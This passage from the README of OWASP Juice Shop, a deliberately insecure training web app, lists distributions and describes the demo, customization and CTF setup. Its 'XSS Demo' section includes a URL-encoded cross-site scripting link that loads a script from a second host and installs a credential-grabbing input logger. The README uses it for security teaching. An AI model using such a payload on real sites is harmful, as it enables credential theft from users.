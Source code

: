 | node.js  | [Docker image](https://registry.hub.docker.com/u/bkimminich/juice-shop)             | [Packaged distributions](https://github.com/bkimminich/juice-shop/releases/latest)         |
|:---------|:------------------------------------------------------------------------------------|:-------------------------------------------------------------------------------------------|
| 11.x     |                                                                                     | `juice-shop-<version>_node11_windows_x64.zip`, `juice-shop-<version>_node11_linux_x64.tgz` |
| __10.x__ | __`latest`__ (current official release), `snapshot` (preview from `develop` branch) | `juice-shop-<version>_node10_windows_x64.zip`, `juice-shop-<version>_node10_linux_x64.tgz` |
| 9.x      |                                                                                     | `juice-shop-<version>_node9_windows_x64.zip`, `juice-shop-<version>_node9_linux_x64.tgz`   |
| 8.x      |                                                                                     | `juice-shop-<version>_node8_windows_x64.zip`, `juice-shop-<version>_node8_linux_x64.tgz`   |

## Demo [![Heroku](https://heroku-badge.herokuapp.com/?app=juice-shop)](http://demo.owasp-juice.shop)

Feel free to have a look at the latest version of OWASP Juice Shop:
<http://demo.owasp-juice.shop>

> This is a deployment-test and sneak-peek instance only! You are __not
> supposed__ to use this instance for your own hacking endeavours! No
> guaranteed uptime! Guaranteed stern looks if you break it!

## Customization

Via a YAML configuration file in `/config`, the OWASP Juice Shop can be
customized in its content and look & feel.

For detailed instructions and examples please refer to
[our _Customization_ documentation](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part1/customization.html).

## CTF-Extension

If you want to run OWASP Juice Shop as a Capture-The-Flag event, we
recommend you set it up along with a [CTFd](https://ctfd.io) server
conveniently using the official
[`juice-shop-ctf-cli`](https://www.npmjs.com/package/juice-shop-ctf-cli)
tool.

For step-by-step instructions and examples please refer to
[the _Hosting a CTF event_ chapter](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part1/ctf.html)
of our companion guide ebook.

## XSS Demo

To show the possible impact of
[XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)), you
can download this
[docker-compose](https://raw.githubusercontent.com/wurstbrot/shake-logger/master/docker-compose.yml)-file
and run `docker-compose up` to start the juice-shop and the
shake-logger. Assume you received and (of course) clicked
[this inconspicuous phishing link](localhost:3000/#/search?q=%3Cimg+src%3Dx+onerror%3D%27var+js%3Ddocument.createElement%28%22script%22%29%3Bjs.type+%3D+%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar+hash%3Dwindow.location.hash%3Bwindow.location.hash%3Dhash.substr%280%2C8%29%3B%27%2F%3Eapple)
and login. Apart from the visual/audible effect, the attacker also
installed [an input logger](localhost:8080/logger.php) to grab
credentials! This could easily run on a 3rd party server in real life!
